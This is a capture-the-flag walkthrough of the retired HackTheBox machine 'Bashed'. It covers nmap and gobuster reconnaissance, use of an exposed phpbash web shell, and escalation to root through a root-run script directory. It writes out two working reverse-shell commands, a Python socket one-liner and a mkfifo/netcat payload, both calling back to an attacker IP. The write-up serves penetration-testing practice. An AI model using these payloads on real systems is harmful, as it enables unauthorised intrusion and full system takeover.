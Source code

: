```yaml
---
title: Bashed - HackTheBox Walkthrough
author: Degr4ne
date: 2021-10-07 12:00:00 
categories: [HackTheBox,Linux]
tags: [sudo,cronjob]
math: false
mermaid: false
image:
  src: /assets/img/HTB/Bashed/00-banner.png
  width: 585
  height: 370
---
```

Hello guys, welcome back with another walkthrough, this time we'll be doing `Bashed` a retired machine by HackTheBox. Without further ado, let’s begin.

# Recon

## Nmap

As always, we'll start with a nmap scan to discover the open ports and services.

```console
$ cat nmap-scan
# Nmap 7.91 scan initiated Wed Oct  6 08:58:58 2021 as: nmap -sC -sV -v -oN nmap-scan 10.129.230.238
Nmap scan report for 10.129.230.238
Host is up (0.12s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  6 08:59:29 2021 -- 1 IP address (1 host up) scanned in 30.63 seconds
```

The only port we get is 80 running http, I also ran a complete nmap scan to cover all ports but in this case I didn't get any other port.

## Port 80

![01-web](/assets/img/HTB/Bashed/01-web.png)

It seems the developer test a semi-interactive web shell called `phpbash.php` on this machine.
Let's find it, running gobuster.

![02-gobuster](/assets/img/HTB/Bashed/02-gobuster.png)

There some directories but the most interesting is `/dev`.

![03-dev](/assets/img/HTB/Bashed/03-dev.png)

# Initial Foothold

Once we click on phpbash.php we get a semi-interactive web shell.

![04-phpbash](/assets/img/HTB/Bashed/04-phpbash.png)

To obtain a reverse shell just need run the next command and a start a netcat listener on port 443.

```console
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.32",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```
# Privilage Escalation
With `sudo -l` we discover that we can execute any command as the user `scriptmanager`, so we can run a shell with this user.

![05-sudo](/assets/img/HTB/Bashed/05-sudo.png)

Doing some enumeration, to know if there any schedule script or other command that are running automatically, we'll use [pspy](https://github.com/DominicBreuker/pspy/releases), but first let's transfer this binary to the victim machine.

![06-python](/assets/img/HTB/Bashed/06-python.png)

It looks root is executing every file with the python extension `.py` in the `/scripts` directory.

![07-pspy](/assets/img/HTB/Bashed/07-pspy.png)

Once we are in that directory, we will insert a reverse shell  into a python file.

```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.32 443 >/tmp/f")
```

Like the screenshot below.

![08-shell](/assets/img/HTB/Bashed/08-shell.png)

Let's start a netcat listener on port 443.

![09-root](/assets/img/HTB/Bashed/09-root.png)

We are root!!!
That’s it for now guys. Until next time.
